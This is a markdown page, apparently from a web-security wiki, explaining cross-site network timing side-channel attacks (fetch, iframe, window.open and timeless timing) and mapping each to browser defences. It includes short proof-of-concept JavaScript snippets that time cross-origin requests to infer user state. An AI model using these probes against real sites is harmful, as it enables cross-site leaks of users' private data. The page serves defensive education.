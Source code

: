 +++
title = "Network Timing"
description = ""
date = "2020-07-21"
category = "attacks"
attacks = [
    "dom property",
]
defenses = [
    "same-site cookies",
    "sec-fetch metadata",
]
menu = "main"
+++

Network Timing side-channels have been present on the web since its beginning [^1]. These attacks gained different levels of impact over time, gaining new attention with the beginning of the modern web when browsers started shipping high precision timers like [performance.now()]({{< ref "clocks.md#performancenow" >}}).

To obtain timing measurements attackers must use a [clock]({{< ref "clocks.md" >}}), either an implicit or explicit one. These clocks are usually interchangeable and only vary in accuracy. For simplicity, this article will only address the `performance.now()` API, an explicit clock present in all modern browsers.

This side-channel allows attackers to infer information from a cross-site request based on how much time it takes to complete a request [^2]. The timing measurement may vary based on a user state and it's usually connected to:

- Resource Size
- The computation time in the backend
- Amount of sub-resources

{{< hint info >}}
Learn more about the different types of clocks in the [Clocks Article]({{< ref "clocks.md" >}}).
{{< /hint >}}

### Modern Web Timing Attacks

The [performance.now()]({{< ref "clocks.md#performancenow" >}}) API can be used to measure how much time it takes to perform a request.

```javascript
let before = performance.now()
await fetch("//mail.com/search?q=foo")
let request_time = performance.now() - before
```

### Frame Timing Attacks

This mechanism allows an attacker to measure a page full load which includes subresources. If [Framing Protections](https://TODO) are in place, only the network request can be measured since its subresources are not fetched.

```html
<iframe name=f id=g></iframe>
<script>
before = performance.now();
f.location = '//mail.com/search?q=foo';
g.onerror = g.onload = ()=>{
    console.log('time was', performance.now() - before)
};
</script>
```

### Cross-window Timing Attacks

If a page sets [Framing Protections](https://TODO), an attacker can still measure a page full load (i.e including subresources) by navigating the victim with `window.open`.

```javascript
let w=0, z=0, v=performance.now();
onmessage=()=>{
  try{
    if(w && w.document.cookie){
      // still same origin
    }
    postMessage('','*');
  }catch(e){
    z=performance.now();
    console.log('time to load was', z - v);
  }
};
postMessage('','*');
w=open('//mail.com/search?q=foo');
```


### Timeless Timing Attacks

Other attacks do not consider the notion of time to perform a timing attack [^3]. Timeless attacks consist of fitting two `HTTP` requests in a single packet, the baseline and the attacked request, to guarantee they arrive at the same time to the server. The server *will* process the requests concurrently, and return a response based on their execution time as soon as possible. One of the two requests will arrive first, allowing the attacker to get the timing difference by comparing both requests.

The advantage of this technique is the independence on network jitter and uncertain delays, something that is **always** present in the remaining techniques.

{{< hint warning >}}
The original research needs to be adapted to work in a browser since it handles all network-specific tasks.
{{< /hint >}}

{{< hint warning >}}
This attack is limited to specific versions of HTTP and joint scenarios. It makes certain assumptions and has requirements regarding server behaviors.
{{< /hint >}}

<!--TODO(manuelvsousa): Add case scenarios -->

## Defense

| Attack Alternative  | [Same-Site Cookies]({{< ref "../../defenses/opt-in/same-site-cookies.md" >}})  | [Fetch Metadata]({{< ref "../../defenses/opt-in/sec-fetch.md" >}})  | [Cross-Origin-Opener-Policy]({{< ref "../../defenses/opt-in/coop.md" >}})  |  [Framing Protections]({{< ref "../../defenses/opt-in/xfo.md" >}}) |
|:-------------------:|:------------------:|:---------------:|:-----:|:--------------------:|
| Modern Timing Attacks              |         ✔️         |      ✔️         |  ❌   |          ❌         |
| Frame Timing |         ✔️       |      ✔️         |  ❌   |          ✔️
| Cross-window Timing  |         ✔️ (if Strict)       |      ✔️         |  ✔️   |          ❌         |
| Timeless Timing  |         ✔️        |      ✔️         |  ❌   |          ❌         |

[^1]: Exposing Private Information by Timing Web Applications. [link](https://crypto.stanford.edu/~dabo/papers/webtiming.pdf)
[^2]: The Clock is Still Ticking: Timing Attacks in the Modern Web - Section 4.3.3, [link](https://tom.vg/papers/timing-attacks_ccs2015.pdf)
[^3]: Timeless Timing Attacks: Exploiting Concurrency to Leak Secrets over Remote Connections. [link](https://www.usenix.org/system/files/sec20-van_goethem.pdf)
